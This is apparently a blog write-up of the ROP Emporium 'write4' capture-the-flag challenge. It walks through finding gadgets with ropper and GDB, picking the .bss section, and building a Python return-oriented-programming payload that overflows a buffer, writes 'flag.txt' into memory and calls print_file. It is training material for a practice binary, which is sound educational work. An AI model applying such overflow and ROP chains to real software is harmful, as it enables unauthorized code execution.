 ```yaml
---
title: "ROP Emporium - write4"
categories: [Binary, Exploitation]
tags: [x86, x86_64, ARMv5, ARM, MIPS, write4]

---
```


When tackling Return Oriented Programming (ROP) challenges, we often look for helpful gadgets and familiar strings like `/bin/cat flag.txt` to simplify our exploitation. However, in the **"write4"** challenge, we face a scenario where the string isn’t present in the binary. This forces us to learn a crucial ROP technique — **writing arbitrary data into memory**.

In this blog, I’ll walk through how we can write data into the process’s memory space using ROP, and then use it to execute commands — precisely the skill "write4" wants us to learn.

After running our usual checks:

```bash
strings write432 | grep "cat"
strings write432 | grep "flag"
```

We find that, no `/bin/cat` or `flag` string is present.

However, we’re provided with useful ROP gadgets for writing data.


The goal here is simple:

1. Write `/bin/cat flag.txt` kinda string somewhere in memory using ROP.
2. Call `system` (or equivalent) with the address of the string we wrote.

The author has conveniently provided a `print_file` function, which takes a string argument, opens the corresponding file, and prints its contents. This means we simply need to write the string `flag.txt` into memory and pass its address to this function.

```c
int __cdecl print_file(char *filename)
{
  char s[33]; // [esp+Bh] [ebp-2Dh] BYREF
  FILE *stream; // [esp+2Ch] [ebp-Ch]

  stream = fopen(filename, "r");
  if ( !stream )
  {
    printf("Failed to open file: %s\n", filename);
    exit(1);
  }
  fgets(s, 33, stream);
  puts(s);
  return fclose(stream);
}
```

For offset calculation you can refer my previous blogs in this ROP Emporium series.

The offset is 44 for overwriting EIP.

On decompiling `write432` we can see there is a function by name`usefulGadgets`.
We can disassemble it in GDB -

```bash
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x08048543 <+0>:	mov    DWORD PTR [edi],ebp
   0x08048545 <+2>:	ret    
   0x08048546 <+3>:	xchg   ax,ax
   0x08048548 <+5>:	xchg   ax,ax
   0x0804854a <+7>:	xchg   ax,ax
   0x0804854c <+9>:	xchg   ax,ax
   0x0804854e <+11>:	xchg   ax,ax
End of assembler dump.
```

Gadget - `mov    DWORD PTR [edi],ebp` can be helpful to. **ropper** also gives the same gadget.

```bash
ropper --file write432 --search 'mov'
# ...
0x08048543: mov dword ptr [edi], ebp; ret;
# ...
```

This gadget allows us to write the value stored in `ebp` to the memory address pointed to by `edi`. In other words, it’s a **"write-what-where"** primitive — exactly what we need to place our desired string (`flag.txt`) into a writable memory region.

Next, we need gadgets to control the values of `edi` and `ebp`. Fortunately, the binary provides suitable `pop` gadgets that let us load values into these registers:

```bash
ropper --file write432 --search 'pop'
# ...
0x080485aa: pop edi; pop ebp; ret; 
# ...
```

This gadget lets us load any address into `edi` (where we want to write) and any value into `ebp` (what we want to write).

#### Writing `flag.txt` into Memory

Now that we have all the pieces, here’s the overall plan:

1. Find a writable memory section (usually `.bss`).
2. Use the `pop edi; pop ebp; ret;` gadget to load our target address and desired string into the registers.
3. Use `mov dword ptr [edi], ebp; ret;` to write the data to memory.
4. Repeat as needed to write the full string.
5. Call `print_file` with the address where we wrote `flag.txt`.

#### Finding Writable Memory

We can easily identify a writable section by inspecting the binary:

```bash
readelf -S write432
```

Look for the `.bss` section or another writable region:

```txt
 [25] .bss           NOBITS          0804a020 001020 000004 00  WA  0   0  1
 ```

Here, we’ll use address `0x0804a020` for writing.

#### Payload Construction

The string `flag.txt` is 8 bytes long, so we can split it into two parts since we’re writing 4 bytes at a time (because the gadget moves `dword`, i.e., 4 bytes):

- First write: `'flag'`
- Second write: `'.txt'`


Now that we have identified the required gadgets, we can start crafting our payload.

Here’s the plan:

1. Write `"flag"` to `.bss` (`0x0804a020`).
2. Write `".txt"` to `.bss + 4` (`0x0804a024`).
3. Call the `print_file` function with the address `0x0804a020` as the argument.

```python
#!/usr/bin/python3
import sys
import struct

payload = b'A' * 40               # Padding to overflow buffer (40 bytes)
payload += b'B' * 4               # Overwrite saved EBP (can be junk here)

# First write: write 'flag' to 0x0804a020
payload += struct.pack("<I", 0x080485aa)        # pop edi; pop ebp; ret;
payload += struct.pack("<I", 0x0804a020)        # edi = destination address (.bss)
payload += b'flag'                # ebp = data to write (4 bytes)
payload += struct.pack("<I", 0x08048543)        # mov dword ptr [edi], ebp; ret;

# Second write: write '.txt' to 0x0804a024 (next 4 bytes)
payload += struct.pack("<I", 0x080485aa)        # pop edi; pop ebp; ret;
payload += struct.pack("<I", 0x0804a024)        # edi = destination address (.bss + 4)
payload += b'.txt'                # ebp = data to write (4 bytes)
payload += struct.pack("<I", 0x08048543)        # mov dword ptr [edi], ebp; ret;

# Call print_file with address of 'flag.txt'
payload += struct.pack("<I", 0x80483d0)         # Address of print_file
payload += struct.pack("<I", 0xdeadbeef)        # Return address after print_file (junk)
payload += struct.pack("<I", 0x0804a020)        # Argument: pointer to 'flag.txt' string we wrote

sys.stdout.buffer.write(payload)
```

Now that our payload is ready, let's test it:

```bash
python exp.py > exp.txt
cat exp.txt |  ./write432 
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Awesome! We successfully triggered the `print_file` function, and it printed the flag. However, we also see a segmentation fault after that.

To understand why the program crashed, we can run it inside GDB:

```bash
gdb ./write432
pwndbg> r < exp.txt

#...
 EBP  0x7478742e ('.txt')
 ESP  0xffffd524 —▸ 0x804a020 (completed) ◂— 'flag.txt'
 EIP  0xdeadbeef
─────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────
Invalid address 0xdeadbeef

```

- Our ROP chain worked perfectly:  
    `print_file` was called with the correct argument (the memory address where we stored `"flag.txt"`).
- The flag was printed successfully.
- However, after `print_file` finished, it attempted to return to the address we supplied as the "return address" in our payload.
- In our exploit, we deliberately placed `0xdeadbeef` as the return address after `print_file` — a common placeholder in exploit development. Since this address isn’t mapped in memory, it caused a segmentation fault.

